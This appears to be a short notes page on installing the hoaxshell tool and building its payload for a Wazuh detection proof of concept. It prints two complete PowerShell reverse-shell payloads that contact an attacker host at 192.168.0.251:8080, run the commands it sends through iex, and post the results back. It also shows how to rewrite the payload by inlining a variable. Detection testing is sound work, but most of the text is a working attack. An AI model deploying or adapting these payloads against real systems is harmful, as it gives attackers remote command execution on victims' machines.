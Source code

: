 #### Installation
```
python3 -m venv hxshell
```
```
cd hxshell
```
```
source bin/activate
```
```
git clone https://github.com/t3l3machus/hoaxshell && cd ./hoaxshell
```
```
pip3 install -r requirements.txt
```
```
chmod +x hoaxshell.py
```
#### Wazuh POC
https://wazuh.com/blog/detecting-hoaxshell-with-wazuh/
Example below of editing payload.  Attacker box is the 192.168.0.251.  Edit a copy of the payload by replacing all mentions of the variable $i with its value declared in the payload, and delete the variable declaration from the payload as shown below.
```
$s='192.168.0.251:8080';$i='a272d586-a50a2f80-21ac44cc';$p='http://';$v=Invoke-WebRequest -UseBasicParsing -Uri $p$s/a272d586 -Headers @{"Authorization"=$i};while ($true){$c=(Invoke-WebRequest -UseBasicParsing -Uri $p$s/a50a2f80 -Headers @{"Authorization"=$i}).Content;if ($c -ne 'None') {$r=iex $c -ErrorAction Stop -ErrorVariable e;$r=Out-String -InputObject $r;$t=Invoke-WebRequest -Uri $p$s/21ac44cc -Method POST -Headers @{"Authorization"=$i} -Body ([System.Text.Encoding]::UTF8.GetBytes($e+$r) -join ' ')} sleep 0.8}
```
```
$s='192.168.0.251:8080';$p='http://';$v=Invoke-WebRequest -UseBasicParsing -Uri $p$s/a272d586 -Headers @{"Authorization"='a272d586-a50a2f80-21ac44cc'};while ($true){$c=(Invoke-WebRequest -UseBasicParsing -Uri $p$s/a50a2f80 -Headers @{"Authorization"='a272d586-a50a2f80-21ac44cc'}).Content;if ($c -ne 'None') {$r=iex $c -ErrorAction Stop -ErrorVariable e;$r=Out-String -InputObject $r;$t=Invoke-WebRequest -Uri $p$s/21ac44cc -Method POST -Headers @{"Authorization"='a272d586-a50a2f80-21ac44cc'} -Body ([System.Text.Encoding]::UTF8.GetBytes($e+$r) -join ' ')} sleep 0.8}
```
